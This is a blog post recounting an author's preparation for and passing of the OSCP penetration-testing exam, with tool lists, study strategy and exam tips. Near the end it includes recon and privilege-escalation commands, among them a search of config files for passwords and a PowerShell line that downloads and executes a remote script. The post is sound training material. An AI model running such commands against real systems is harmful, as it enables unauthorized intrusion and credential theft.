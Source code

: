 ```yaml
---
slug: oscp-journey/
title: How to Pass the OSCP
date: 2019-12-04
category: opinions
subtitle: The meaning of Try Harder
tags: challenge, ethical-hacking, pentesting, security, training, exploit
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/cover_dcbd71.webp
alt: Photo by Clint Patterson on Unsplash
description: The OSCP exam is one of the hardest certifications out there for pentesters. Here we show you how you can prepare yourself to do your best on it.
keywords: OSCP, Business, Information, Security, Protection, Hacking, Best Practices, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, OSCP - Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/dYEuFB8KQJk
---
```


Before taking the exam I already had years of work experience as a
penetration tester at `Fluid Attacks`. So, I already knew how to
perform a penetration test and how to build a technical report of my
findings. However, if you don't have any work experience on the field or
you're just starting out, this post may help you pass your exam.

The most important phase on a penetration test is scanning. Here you
will use tools to get information about your target, such as its
operating system, open ports, the services running on those ports and
their versions, whether they have public vulnerabilities or not, and
whether there is a public exploit for those vulnerabilities. Since
metasploit is restricted to only **one** machine (this includes the
auxiliary modules too) you need to be familiar with tools such as
the following:

- [Nmap](https://nmap.org/)

- [Dirbuster](https://tools.kali.org/web-applications/dirbuster)

- [Nikto](https://tools.kali.org/information-gathering/nikto)

- [Gobuster](https://tools.kali.org/web-applications/gobuster)

- [Dirsearch](https://github.com/maurosoria/dirsearch)

- [enum4linux](https://tools.kali.org/information-gathering/enum4linux)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

The only way to do this is by using them continuously until you develop
a solid enumeration strategy. To help you with this there are services like
[hackthebox](https://www.hackthebox.eu/) and
[vulnhub](https://www.vulnhub.com/), where you can find vulnerable
machines on which to test your skills.

<div class="imgblock">

![owned-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/hackthebox_efxh5c.webp)

</div>

Once there you can also practice the *gaining access* phase and your
privilege escalation strategies with multiple operating systems and
vulnerabilities that resemble the ones in real-life scenarios. You would
be surprised by how many times I've encountered a vulnerability on
hackthebox first and then on a real-life service. The tools and
resources that I got the most from for privilege escalation were
these:

- [linenum](https://github.com/rebootuser/LinEnum)

- [windows exploit
  suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

- [JAWS](https://github.com/411Hall/JAWS)

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

- [g0tmilk Linux privesc
  blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [absolomb Windows privesc
  blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

I recommend hacking all the live machines that you can without any help
and getting some points on the platform. Doing this helps you get used to
the tools and increases your confidence in using them when you take the
exam. If you can't hack a machine and it gets removed, you can check the
walkthrough by
[Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and
learn new things. You can learn stuff from these videos even for
machines you did root. Do this for at least one month or, if you have no
work experience whatsoever, two months.

## Attacking the lab

I had a month of lab access, so the approach I took to the course and
the lab was to split them by days. One day concentrating on the guide and
taking notes of things that I didn't know, and another day for attacking
the lab machines.

When you are working on the machines, also work on your time management
skills. Do not spend too much time on one machine when you can try
another one. Time management becomes very important when you are taking
your exam.

Before your lab access ends, be sure that you fully understand how to do
a **buffer overflow**. Take notes of every step, copy all the commands
that you need, and also how to get the **return address**.

## Post lab

Here you want to gather the most information about the last two steps.
We are going back to hackthebox but instead of doing the active
machines we are going to do the ones from [this
list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0)
(there are also some from vulnhub).

<div class="imgblock">

![oscp-like-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330963/blog/oscp-journey/url-oscp_lgqddx.webp)

</div>

Try to conquer those machines without the aid of walkthroughs.
When you finish one, look at these walkthroughs to check whether there
is another way in; if so, then also practice it.

The day before the exam, I did nothing. Your body and mind need to rest
and you should not try to cram for the test. Eat your favourite foods
whatever they may be. Treat yourself to a well-deserved dessert and watch
movies and series that you perhaps ignored when you focused on your
studies. The point is to de-stress so you're fresh when you take the
exam.

## The exam

The task is to gain administrative access to the machines in the
network. There are five machines, each is worth a certain number of points
if you complete it, and you need at least **70** points to pass the exam.
The machine points are distributed as follows:

- 25 points buffer overflow

- 25 points machine

- Two 20 points machines

- 10 points machine

I started with the 25 points BoF machine while I scanned all the other
ones. I did this because I knew that I could follow the guide
step-by-step and get the BoF points. My scanning strategy was to run
`nmap` with these options:

**nmap with options.**

``` bash
nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
```

Also, I pinged the machine in order to view its operative system. If the
TTL (Time to Live) is 64 then it is a Linux machine, and if it is
128 then it's a Windows machine. When the port scan finished I
checked every web service and used a web crawler like `dirbuster` or
`dirsearch`.

After finishing the BoF machine, I started hacking the machines with
all the information that I had collected. I ended up going down rabbit
holes trying to gain admin privileges on the 25-pointer machine. Because
of the time the 25-point machine was taking, I quickly decided to switch
to both the 20-point and finally, the 10-pointer machine.

For privilege escalation I first checked the operative system version
and kernel, this can be done by running:

``` bash
uname -a #linux
> systeminfo #windows
```

If it was Linux I checked for `sudo` rights running processes, and for
`SUID` executables. There is a tool named linenum but it's too verbose
and I like to search for things manually.

``` bash
sudo -l
ps -aux
find / -perm -u=s -type f 2>/dev/null
```

If it was Windows, I checked for the `Groups.xml` file (usually it has
administrative user and password information there), installed software
and tried to use `powershell` to run Windows exploits. When it comes
to Windows, most of the time, the way of escalating privileges is
through a vulnerability in the OS version or in an installed program
version.

``` bash
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

I finished my test in less than 10 hours with 4 admins and 1 user for a
little more than **75** total points. The mistake that I made was to be
lazy with my screenshots, so I needed to redo all the machines to get
all of my evidences. **Do not do this\!** The next day I did my
technical documentation. The advice here is to put everything that you
did from the *scanning* phase up to the *privilege escalation* phase.
Also, if you modified an exploit (even if is only one line), add it to
the report and mark what you modified.

<div class="imgblock">

![oscp-win](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/oscp-win_llivv3.webp)

</div>

## Be prepared and do your best

The OSCP is a difficult certification, but it's not impossible. The
steps before the lab are going to help you get the most out of the
course and to establish your own routine when it comes to doing a
penetration test. The enumeration and scanning phases are the most
important ones in the whole process because you can spend hours going
down rabbit holes if you do not do these steps properly. Mental
toughness is needed to pass this test, so be prepared to think quickly
and creatively, daisy-chaining vulnerabilities, and rest when you need
it. The discord groups of hackthebox and OFFSEC are at your disposal to
answer your questions or give you hints where you need them. Try harder.
